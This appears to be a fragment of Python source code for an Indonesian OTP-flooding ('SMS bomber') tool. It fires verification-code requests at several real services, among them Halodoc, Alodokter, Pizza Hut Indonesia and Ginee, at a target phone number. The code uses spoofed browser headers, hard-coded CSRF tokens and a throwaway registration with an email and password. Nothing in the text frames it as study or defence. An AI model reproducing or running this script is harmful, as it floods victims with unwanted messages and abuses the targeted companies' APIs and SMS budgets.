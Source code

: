             payfaz=requests.post("https://api.payfazz.com/v2/phoneVerifications",data={"phone":"0"+nomor},headers={"Host": "api.payfazz.com", "content-length": "17", "accept": "*/*", "origin": "https://www.payfazz.com","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36", "content-type": "application/x-www-form-urlencoded; charset=UTF-8", "referer": "http://www.payfazz.com/register/BEN6ZF74XL", "accept-encoding": "gzip, deflate, br", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}).text
            req4 = requests.post('https://www.halodoc.com/api/v1/users/authentication/otp/requests', headers={'Host': 'www.halodoc.com','x-xsrf-token': '9F1AFC784408F11F0FCD3071E845FBEB52B13A6C8C5740172F9C526E0DCA9A69B37505EDB5FAF1C97C522F4B09AFCF2F7C89','sec-ch-ua-mobile': '?1','user-agent': 'Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36','content-type': 'application/json','accept': 'application/json, text/plain, */*','save-data': 'on','origin': 'https://www.halodoc.com','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en;q=0.8'},data=json.dumps({"phone_number": "+62"+nomor,"channel": "sms"})).text
            req3 = requests.post('https://www.alodokter.com/login-with-phone-number', headers={'Host': 'www.alodokter.com','content-length': '33','x-csrf-token': 'UG8hv2kV0R2CatKLXYPzT1isPZuGHVJi8sjnubFFdU1YvsHKrmIyRz6itHgNYuuBbbgSsCmfJWktrsfSC9SaGA==','sec-ch-ua-mobile': '?1','user-agent': 'Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36','content-type': 'application/json','accept': 'application/json','save-data': 'on','origin': 'https://www.alodokter.com','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://www.alodokter.com/login-alodokter','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en;q=0.8'},data=json.dumps({"user": {"phone": "0"+nomor}})).text
            pizzahut=requests.post('https://api-prod.pizzahut.co.id/customer/v1/customer/register', headers={'Host': 'api-prod.pizzahut.co.id','content-length': '157','x-device-type': 'PC','sec-ch-ua-mobile': '?1','x-platform': 'WEBMOBILE','x-channel': '2','content-type': 'application/json;charset=UTF-8','accept': 'application/json','x-client-id': 'b39773b0-435b-4f41-80e9-163eef20e0ab','user-agent': 'Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36','x-lang': 'en','save-data': 'on','x-device-id': 'web','origin': 'https://www.pizzahut.co.id','sec-fetch-site': 'same-site','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://www.pizzahut.co.id/','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en;q=0.8'},data=json.dumps({  "email": "aldigg088@gmail.com",  "first_name": "Xenzi",  "last_name": "Wokwokw",  "password": "Aldi++\\/67",  "phone": "0"+nomor,  "birthday": "2000-01-02"})).text
            mar=requests.post("https://api.kredinesia.id/v1/login/verificationCode",headers={"Host":"api.kredinesia.id","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8","origin":"https://www.kredinesia.id","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.kredinesia.id/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phone":nomor,"captcha":""})).text
            shope=requests.post("https://api.tokko.io/graphql",headers={"Host":"api.tokko.io","accept-language":"id","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type":"application/json","x-tokko-api-client":"merchant_web","accept":"*/*","origin":"https://web.lummoshop.com","sec-fetch-site":"cross-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://web.lummoshop.com/","accept-encoding":"gzip, deflate, br"},json={"operationName":"generateOTP","variables":{"generateOtpInput":{"phoneNumber":"+62"+nomor,"hashCode":"","channel":"WHATSAPP","userType":"MERCHANT"}},"query":"mutation generateOTP($generateOtpInput: GenerateOtpInput!) {\n  generateOtp(generateOtpInput: $generateOtpInput) {\n    phoneNumber\n  }\n}\n"}).text
            gine=requests.post("https://accounts.ginee.com/api/iam-service/account/send-verification-code",headers={"Host":"accounts.ginee.com","Connection":"keep-alive","Content-Length":"114","Accept":"application/json, text/plain, */*","Content-Type":"application/json;charset=UTF-8","Accept-Language":"en","sec-ch-ua-mobile":"?1","User-Agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","sec-ch-ua-platform":"Android","Origin":"https://accounts.ginee.com","Sec-Fetch-Site":"same-origin","Sec-Fetch-Mode":"cors","Sec-Fetch-Dest":"empty","Referer":"https://accounts.ginee.com/accounts/registered?system_id=SAAS&from=OFFICIAL_SITE&country=ID&utm_source=Article&utm_campaign=Ginee_ID","Accept-Encoding":"gzip, deflate, br"},data=json.dumps({"account":"0"+nomor,"countryCode":"ID","verificationPurpose":"USER_REGISTRATION","verificationType":"PHONE"})).text